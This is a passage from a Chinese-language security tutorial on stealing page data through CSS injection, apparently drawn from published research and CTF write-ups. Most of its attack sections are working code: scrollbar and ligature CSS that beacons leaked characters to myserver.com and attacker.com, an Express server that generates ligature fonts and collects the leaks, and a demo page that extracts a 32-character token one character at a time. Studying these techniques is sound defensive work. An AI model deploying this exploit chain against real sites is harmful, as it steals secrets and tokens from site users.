换句话说，只有第一行的字元能看到，而现在的 div 宽度只有 20px，所以只会出现第一个字元。

接着，我们再运用刚刚学会的那招，去载入不同的字体。  
当我载入 fa 这个字体时，因为画面上没有出现 `A` ，所以不会有任何变化。  
但是当我载入 fc 这个字体时，画面上有 `C` ，  
所以就会用 `Comic Sans MS` 来显示 `C` ，高度就会变高，scrollbar 就会出现，  
就可以利用它来发出请求，代码如下：

```
div {
  font-size: 0px;
  height: 40px;
  width: 20px;
  font-family: fc, "Courier New";
  letter-spacing: 0px;
  word-break: break-all;
  overflow-y: auto;
  overflow-x: hidden;
  --leak: url(http://myserver.com?C);
}

div::first-line{
  font-size: 30px;
}

div::-webkit-scrollbar {
  background: blue;
}

div::-webkit-scrollbar:vertical {
  background: var(--leak);
}

```

那我们要怎么样不断使用新的 font-family 呢？用 CSS animation 就可以做到，  
我们可以使用 CSS animation 不断载入不同的 font-family 以及指定不同的 –-leak。

如此一来，我们就能知道画面上的第一个字元到底是什么。

#### 9.2.2 步骤

知道了第一个字元以后，我们把 div 的宽度变长，例如说变成 40px ，就能容纳两个字元，  
因此第一行就会是前两个字，接着再用一样的方式载入不同的font-family，就能 leak 出第二个字元，详细流程如下：

1. 假设画面上是ACB
2. 调整宽度为20px，第一行只出现第一个字元 A
3. 载入字体fa，因此 A 用较高的字体显示，出现 scrollbar，载入 scrollbar 背景，传送请求给server
4. 载入字体fb，但是 B 没有出现在画面上，因此没有任何变化。
5. 载入字体fc，但是 C 没有出现在画面上，因此没有任何变化。
6. 调整宽度为40px，第一行出现两个字元 AC
7. 载入字体fa，因此 A 用较高的字体显示，出现 scrollbar，此时因为这个背景已经载入，所以不会发送新的请求
8. 载入字体fb，但是 B 没有出现在画面上，因此没有任何变化
9. 载入字体fc，因此 C 用较高的字体显示，出现 scrollbar，并且载入背景
10. 调整宽度为60px，ACB 三个字元都出现在第一行
11. 载入字体fa，同第七步
12. 载入字体fb，B 用较高的字体显示，出现 scrollbar 并且载入背景
13. 载入字体fc，C 用较高的字体显示，但因为已经载入过相同背景，不会发送请求
14. 结束

从上面流程中可以看出 server 会依序收到A, C, B 三个reqeust，代表了画面上字元的顺序。  
而不断改变宽度以及 font-family 都可以用 CSS animation 做到

#### 9.2.3 局限性

这个解法虽然解决了不知道字元顺序的问题，但依然无法解决重复字元的问题，  
因为重复的字元不会再发出请求。

### 9.3 连字 + scrollbar

#### 9.3.1 连字

在某些字型当中，会把一些特定的组合 render 成连在一起的样子，如下图：



#### 9.3.2 实现方法

我们可以自己制作出一个独特的字体，把 `ab` 设定成连字，并且 render 出一个超宽的元素。  
接着，我们把某个 div 宽度设成固定，然后结合 scrollbar：

* 如果 ab 出现了，就会变很宽，scrollbar 就会出现，就可以载入请求来告诉 server；
* 如果 ab 没有出现，那 scrollbar 就不会出现，就不会有事情发生。

#### 9.3.3 步骤

1. 载入有连字 aa 的字体，没有发生变化
2. 载入有连字 ab 的字体，没有发生变化
3. 载入有连字 ac 的字体，成功渲染宽画面，scrollbar 出现，载入 server 图片
4. server 知道画面上有 ac
5. 载入有连字 aca 的字体，没有发生变化
6. 载入有连字 acb 的字体，没有发生变化
7. 载入有连字 acc 的字体，成功渲染宽画面，scrollbar 出现，传送结果给 server
8. server 知道画面上有 acc

#### 9.3.4 泄露 JavaScript 代码

通过利用连字和 scrollbar ，我们可以一个字元一个字元慢慢地泄露出页面上的内容，甚至JavaScript的代码：

```
head, script {
  display: block;
}

```

使用上述 CSS 可以让 script 内容也显示在画面上，  
因此我们也可以利用同样的技巧，泄露 script 的内容：

```
<!DOCTYPE html>
<html lang="en">
<body>
  <script>
    var secret = "abc123"
  </script>
  <hr>
  <script>
    var secret2 = "cba321"
  </script>
  <svg>
    <defs>
    <font horiz-adv-x="0">
      <font-face font-family="hack" units-per-em="1000" />
        <glyph unicode='"a' horiz-adv-x="99999" d="M1 0z"/>
      </font>
    </defs>
  </svg>
  <style>
    script {
      display: block;
      font-family:"hack";
      white-space:n owrap;
      overflow-x: auto;
      width: 500px;
      background:lightblue;
    }

    script::-webkit-scrollbar {
      background: blue;
    }

  </style>
</body>
</html>

```

以上示例中包含两段 js 代码：

```
var secret = "abc123"
var secret2 = "cba321"

```

由于样式表中的设置，只要存在 "a 连字，就会渲染一个超宽的宽度，  
就会导致 scrollbar 的出现，背景就会变为蓝色，效果如下：



上面的部分是因为内容为 `var secret = "abc123"` ，包含了 "a 的连字，  
因此宽度变为超宽，scrollbar 出现，背景变为蓝色。

下面的部分是因为没有 "a 的连字，所以 scrollbar 没出现。  
（有 a 的地方都会缺字，应该与没有定义其他的 glyph 有关，但不影响结果）

因此只要把 scrollbar 的背景换成 URL，就可以从 server 端获得泄露的信息。

#### 9.3.5 字体的产生

我们在 9.3.4 中展示的示例仅能在 Safari 浏览器中起作用，  
这是因为仅有 Safari 支持 SVG font，不需要从 server 中产生字体，  
而对于其他的浏览器，我们需要在 server 端来产生连字字体

借助 Fontforge 等软件，我们可以在字体中创建自己的字体以及我们自己的连字。

> Fontforge 是一种用于创建字体的高级工具，我们将使用它来将字体从 SVG 格式更改为 WOFF 。这是必要的，因为浏览器已经停止支持字体中的SVG格式（因此需要使用WOFF格式），而从我们的角度来看，以SVG格式定义字体是迄今为止最方便的。FontForge 允许您定义脚本以执行不同字体格式之间的转换。

让我们准备一个名为 script.fontforge 的文件，其中包含以下内容：

```
#!/usr/bin/fontforge
Open($1)
Generate($1:r + ".woff")

```

触发该脚本后，该脚本将创建一个名为 `<file>.woff` 的文件。  
通过这种简单的方式，我们以字体格式创建了一个简单的转换器。

接下来我们使用 node.js 配置字体生成 server：

package.json：

```
{
  "name": "css-attack-2",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "author": "",
  "license": "ISC",
  "dependencies": {
    "express": "^4.15.5",
    "js-cookie": "^2.1.4",
    "js2xmlparser": "^3.0.0",
    "rimraf": "^2.6.2",
    "tmp": "0.0.33"
  }
}

```

main.js：

```
const express = require('express');
const app = express();
// Server ExprssJS by default adds ETag headline,
// but we don’t need it so we turn it off.
app.disable('etag');

const PORT = 3001;
const js2xmlparser = require('js2xmlparser');
const fs = require('fs');
const tmp = require('tmp');
const rimraf = require('rimraf');
const child_process = require('child_process');


// Generate a font for a given prefix 
// and the characters for which the ligature is to be created
function createFont(prefix, charsToLigature) {
    let font = {
        "defs": {
            "font": {
                "@": {
                    "id": "hack",
                    "horiz-adv-x": "0"
                },
                "font-face": {
                    "@": {
                        "font-family": "hack",
                        "units-per-em": "1000"
                    }
                },
                "glyph": []
            }
        }
    };

    // By default all possible characters have a zero width...
    let glyphs = font.defs.font.glyph;
    for (let c = 0x20; c <= 0x7e; c += 1) {
        const glyph = {
            "@": {
                "unicode": String.fromCharCode(c),
                "horiz-adv-x": "0",
                "d": "M1 0z",
            }
        };
        glyphs.push(glyph);
    }

    // ... except ligatures, which are EXTREMELY wide.
    charsToLigature.forEach(c => {
        const glyph = {
            "@": {
                "unicode": prefix + c,
                "horiz-adv-x": "10000",
                "d": "M1 0z",
            }
        }
        glyphs.push(glyph);
    });

    // We convert JSON-a to SVG.
    const xml = js2xmlparser.parse("svg", font);

    // And next we use fontforge
    // to change SVG to WOFF.
    const tmpobj = tmp.dirSync();
    fs.writeFileSync(`${tmpobj.name}/font.svg`, xml);
    child_process.spawnSync("/usr/bin/fontforge", [
        `${__dirname}/script.fontforge`,
        `${tmpobj.name}/font.svg`
    ]);

    const woff = fs.readFileSync(`${tmpobj.name}/font.woff`);

    // We delete temporary directory.
    rimraf.sync(tmpobj.name);

    // and we give back font in the form of WOFF.
    return woff;
}

// Endpoint for generating fonts.
app.get("/font/:prefix/:charsToLigature", (req, res) => {
    const { prefix, charsToLigature } = req.params;

    // We make sure that the font is in the cache.
    res.set({
        'Cache-Control': 'public, max-age=600',
        'Content-Type': 'application/font-woff',
        'Access-Control-Allow-Origin': '*',
    });

    res.send(createFont(prefix, Array.from(charsToLigature)));

});

// Endpoint to accept characters via a callback connection
app.get("/reverse/:chars", function(req, res) {
    res.cookie('chars', req.params.chars);
    res.set('Set-Cookie', `chars=${encodeURIComponent(req.params.chars)}; Path=/`);
    res.send();
});

app.get('/cookie.js', (req, res) => {
    res.sendFile('js.cookie.js', {
        root: './node_modules/js-cookie/src/'
    });
});

app.get('/index.html', (req, res) => {
    res.sendFile('index.html', {
        root: '.'
    });
});

app.listen(PORT, () => {
    console.log(`Listening on ${PORT}...`);
})

```

demo.html

```
<!doctype html><meta charset=utf-8>
<script src=cookie.js></script>
<big id=token></big><br>
<script>
    (async function() {
        const EXPECTED_TOKEN_LENGTH = 32;
        const ALPHABET = '0123456789abcdef';
        // 显示已读取的令牌
        const outputElement = document.getElementById('token');

        // 存储已提取的令牌
        let extractedToken = '';

        // 存储用于创建连字的前缀
        let prefix = '"';

        // 泄露另一个标记字符，直到泄露所有字符

        while (extractedToken.length < EXPECTED_TOKEN_LENGTH) {
            const nextTokenChar = await getNextTokenCharacter();
            extractedToken += nextTokenChar;

            // 将取出的标志添加到前缀中用于进一步的连字
            prefix += nextTokenChar;

            // 在页面上显示目前为止我们已经提取出的 token 部分
            outputElement.textContent = extractedToken;
        }
        // 当运行到这里时，我们已经拥有了完整的 token
        // 删除所有 iframe 并将 token 以粗体显示
        deleteAllIframes();
        outputElement.style.fontWeight = 'bold';

        // 使用分治的方法提取下一个标记字符的函数
        async function getNextTokenCharacter() {
            // 出于性能目的 - 删除所有现有的 iframe 元素
            deleteAllIframes();

            let alphabet = ALPHABET;
            //下一个标记字符是什么。
            while (alphabet.length > 1) {
                // 等待创建一个新的 cookie - 所以首先让我们删除所有现有的 cookie
                clearAllCookies();

                const [leftChars, rightChars] = split(alphabet);

                // 首先，我们确保两组连字的字体都在缓存中
                await makeSureFontsAreCached(leftChars, rightChars);

                // 此处人为延迟会减少的攻击逃逸的可能性
                await delay(100);

                // 然后我们使用“攻击”CSS 创建两个 iframe
                await Promise.all([createAttackIframe(leftChars), createAttackIframe(rightChars)]);

                // 等待返回的字符
                const chars = await getCharsFromReverseConnection();

                // 在此基础上我们继续“分而治之”。
                alphabet = chars;
            }
            //如果我们在这里，那就意味着字母表有一个字符。
            //结论：这个字符是另一个 token 字符

            return alphabet;
        }

        function clearAllCookies() {
            Object.keys(Cookies.get()).forEach(cookie => {
                Cookies.remove(cookie);
            });
        }

        function deleteAllIframes() {
            document.querySelectorAll('iframe').forEach(iframe => {
                iframe.parentNode.removeChild(iframe);
            });
        }

        // 该函数将字符串分成两个长度相同（或相差一）的字符串。例如 split("abcd") == ["ab", "cd"];
        function split(s) {
            const halfLength = parseInt(s.length / 2);
            return [s.substring(0, halfLength), s.substring(halfLength)];
        }

        // 生成随机字符串的函数，例如 randomValue() == "rand6226966173982633"
        function randomValue() {
            return "rand" + Math.random().toString().slice(2);
        }

        //我们生成 CSS，这将确保字体位于缓存中。
        //作为字体已经下载的证明，我们将使用以下检查
        //是否定义了 font_${random_track_characters} cookie。
        function makeSureFontsAreCached(leftChars, rightChars) {
            return new Promise(resolve => {
                // 我们对所有值进行编码，以便能够将它们安全地放置在 URL 中。
                let encodedPrefix;
                [encodedPrefix, leftChars, rightChars] = [prefix, leftChars, rightChars].map(val => encodeURIComponent(val));

                // 我们生成引用这两种字体的 CSS。使用 body:before 和 body:after 以确保浏览器必须下载这两种字体。
                const css = `
                    @font-face {
                        font-family: 'hack1';
                        src: url(http://attacker.com/font/${encodedPrefix}/${leftChars})
                    }
                    @font-face {
                        font-family: 'hack2';
                        src: url(http://attacker.com/font/${encodedPrefix}/${rightChars})
                    }
                    body:before {
                        content: 'x';
                        font-family: 'hack1';
                    }
                    body:after {
                        content: 'x';
                        font-family: 'hack2';
                    }
                `;

                // 创建一个将加载字体的 iframe
                const iframe = document.createElement('iframe');
                iframe.onload = () => {
                    // 该函数直到发生事件才会结束
                    // iframe 元素中的 onload 被触发
                    resolve();
                }
                iframe.src = 'http://localhost:12345/?css=' + encodeURIComponent(css);
                document.body.appendChild(iframe);
            })
        }

        // 当这个函数被调用时，我们可以确定字体都在缓存中。
        // 所以让我们尝试用这样的风格来攻击，因为如果你点击这些字符，就会在 token 中出现一个滚动条
        function createAttackIframe(chars) {
            return new Promise(resolve => {
                // 我们对所有值进行编码，以便能够将它们安全地放置在 URL 中。
                let encodedPrefix;
                [encodedPrefix, chars] = [prefix, chars].map(val => encodeURIComponent(val));

                const css = `
                @font-face {
                    font-family: "hack";
                    src: url(http://attacker.com/font/${encodedPrefix}/${chars})
                }
                script {
                    display: table;
                    font-family: "hack";
                    white-space: nowrap;
                }
                body::-webkit-scrollbar {
                    background: blue;
                }
                body::-webkit-scrollbar:horizontal {
                    background: blue url(http://attacker.com/reverse/${chars});
                }
                `;

                const iframe = document.createElement('iframe');
                iframe.onload = () => {
                    resolve();
                }
                iframe.src = 'http://localhost:12345/?css=' + encodeURIComponent(css);
                // 该 iframe 必须相对较窄 - 滚动条才会出现。
                iframe.style.width = "40px";
                document.body.appendChild(iframe);
            })   
        }

        // 每 20 毫秒检查一次，看看是否生成了通过滚动条产生了返回请求。如果是这样，我们就从字符 cookie 返回值。
        function getCharsFromReverseConnection() {
            return new Promise(resolve => {
                const interval = setInterval(() => {
                    const chars = Cookies.get('chars');
                    if (chars) {
                        clearInterval(interval);
                        resolve(chars);
                    }
                }, 20);
            })
        }

        async function delay(time) {
            return new Promise(resolve => {
                setTimeout(resolve, time);
            })
        }

    })();
</script>

```

## 10. 参考来源

[1] [CSS Injection](https://xsleaks.dev/docs/attacks/css-injection/)  
[2] [Exfiltration via CSS Injection.](https://infosecwriteups.com/exfiltration-via-css-injection-4e999f63097d) by d0nut  
[3] [Better Exfiltration via HTML Injection](https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b) by d0nut  
[4] [CSS Injection Primitives](https://x-c3ll.github.io/posts/CSS-Injection-Primitives) by TheXC3LL  
[5] [Code Vulnerabilities Put Proton Mails at Risk](https://www.sonarsource.com/blog/code-vulnerabilities-leak-emails-in-proton-mail) by Paul Gerstex  
[6] [Stealing With Style: Using CSS to Exploit ProtonMail & Friends - Black Hat Asia 2023](https://www.youtube.com/watch?v=pnbZMvCPqSc) by Paul Gerste  
[7] [child-and-sibling-selectors](https://css-tricks.com/child-and-sibling-selectors/)  
[8] [Sequential Import Chaining - GitHub](https://github.com/d0nutptr/sic)  
[9] [用 CSS 來偷資料 - CSS injection（上）](https://blog.huli.tw/2022/09/29/css-injection-1/) by Huli  
[10] [:has() CSS relational pseudo-class](https://caniuse.com/css-has)  
[11] [用 CSS 來偷資料 - CSS injection（下）](https://blog.huli.tw/2022/09/29/css-injection-2/) by Huli  
[12] [0CTF 2023 筆記](https://blog.huli.tw/2023/12/11/0ctf-2023-writeup/) by Huli  
[13] [salvatore-abello/CTF-Writeups/0ctf - 2023/newdiary - GitHub](https://github.com/salvatore-abello/CTF-Writeups/blob/main/0ctf%20-%202023/newdiary/README.md)  
[14] [Stealing Data in Great style – How to Use CSS to Attack Web Application.](https://research.securitum.com/stealing-data-in-great-style-how-to-use-css-to-attack-web-application/) by MICHAŁ BENTKOWSKI
